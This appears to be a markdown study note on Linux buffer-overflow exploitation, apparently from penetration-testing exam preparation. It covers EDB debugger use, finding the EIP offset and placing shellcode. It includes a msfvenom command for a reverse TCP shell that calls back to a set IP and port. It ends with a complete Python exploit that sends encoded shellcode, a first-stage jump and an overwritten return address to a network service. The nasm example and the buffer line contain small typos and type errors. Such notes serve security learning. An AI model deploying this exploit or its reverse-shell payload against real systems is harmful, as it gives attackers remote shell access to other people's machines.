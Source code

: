 ## Fuzzing Linux

This document will follow much of the same process as the Windows\BufferOverflow\FuzzingWin32.md document, so for more details, see that document.

### EDB  - Linux debugger

#### Commands

| Command | Description                              |
| ------- | ---------------------------------------- |
| F9      | Run                                      |
| CTRL+O  | OpcodeSearched: Searches for a jump code |
| CTRL+B  | BreakpointManager: Set a breakpoint      |
| F7      | Step into (single-step)                  |
|         |                                          |

### Controlling EIP

1. Generate unique string with `msf-pattern_create -l LENGTH`
2. Send string in payload
3. Check EIP register to see what hex string appears
4. Use msf-pattern again to find that subset in your main string and thus the offset:  `msf-pattern_offset -l LENGTH -q HEX#_FROM_EIP`
5. Re-write script to send filler equal to the offset value and then a test string to insert into EIP, plus any needed additional filler, then re-run

Once EIP control is obtained, EIP can be set to point to the address of the instructions you want to run.  Remember to reverse the order of the bytes for 'Little Endian' format.  Where you point depends on where you are able to put your shellcode.

### Locate Space for Shellcode

After EIP control is obtained, then examine the other registers.  You need to figure out where you can put your shellcode

- Case 1:  ESP points to an area you can use.
  - If ESP is already pointing to an area of memory large enough to fit your shellcode, just put the code there and find a JMP ESP statement in the program or one of the DLL's to have execution jump to that position.
- Case 2:  Another register points to an area of memory you control
  - ???
- Case 3:  No other register points to an area of memory you control, but there it does point to an address you can execute to gain control.
  - Regular text in memory can translate to useful instruction code.  To examine what text would translate to, right click the register and choose 'Copy to clipboard'.  Then right click in the disassembler window and choose 'Goto Expression' and put the address from the register in, proceeded by `0x`.
- Case 4:  No other register points to an area of memory you control, but you have a small amount of space where ESP is point you can use.
  - You can use this space to initiate 1st stage shell code to align a register to point to an area of memory you control, then jump to the location in that register to continue execution.

#### Creating 1st stage shell code

You can use the nasm shell from metasploit to generate the opcodes for operations.

```bash
# Ex: add 12 bytes to the eax register
msf-nasm_shell
nasm > add eaxm,12
# Output
00000000 83C00C			add eax,bye +0xc
nasm > jmp eax
00000000 FFE0			jmp eax
```

Take these generated instructions and insert them into the shellcode where you are able to execute from, padding with NOP's (`\x90`), if needed.

### Create Main Shellcode

Once you have decided where to put the shellcode, generate it using msfvenom:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 EXITFUNC=thread -f python -e x86/shikata_ga_nai -b "\x00\x20" -v shellcode
```

Insert this code into your program, but remember to include a NOP sled to deal with the decoder function's destructive habits.

### Final Code Example

```python
#!/usr/bin/python3
import socket
host = "192.168.216.44"
eip = b"\x96\x45\x13\x08"
nopsled = b"\x90" * 8
shellcode =  b""
shellcode += b"\xda\xd2\xd9\x74\x24\xf4\xbd\x26\x3a\xf4\x4f"
shellcode += b"\x5a\x2b\xc9\xb1\x12\x83\xc2\x04\x31\x6a\x13"
shellcode += b"\x03\x4c\x29\x16\xba\xa1\x96\x21\xa6\x92\x6b"
shellcode += b"\x9d\x43\x16\xe5\xc0\x24\x70\x38\x82\xd6\x25"
shellcode += b"\x72\xbc\x15\x55\x3b\xba\x5c\x3d\x7c\x94\xe8"
shellcode += b"\x65\x14\xe7\x16\x8a\xa5\x6e\xf7\x04\x43\x21"
shellcode += b"\xa9\x37\x3f\xc2\xc0\x56\xf2\x45\x80\xf0\x63"
shellcode += b"\x69\x56\x68\x14\x5a\xb7\x0a\x8d\x2d\x24\x98"
shellcode += b"\x1e\xa7\x4a\xac\xaa\x7a\x0c"
crash = b"\x41" * (4368 - len(shellcode) - len(nopsled))
first_stage = b"\x83\xc0\x0c\xff\xe0\x90\x90"
buffer = b"\x11(setup sound " + nopsled + shellcode + crash + eip + first_stage +"\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print ("[*]Sending evil buffer...")
s.connect((host, 13327))
print (s.recv(1024))
s.send(buffer)
s.close()
print ("[*]Payload Sent !")
```

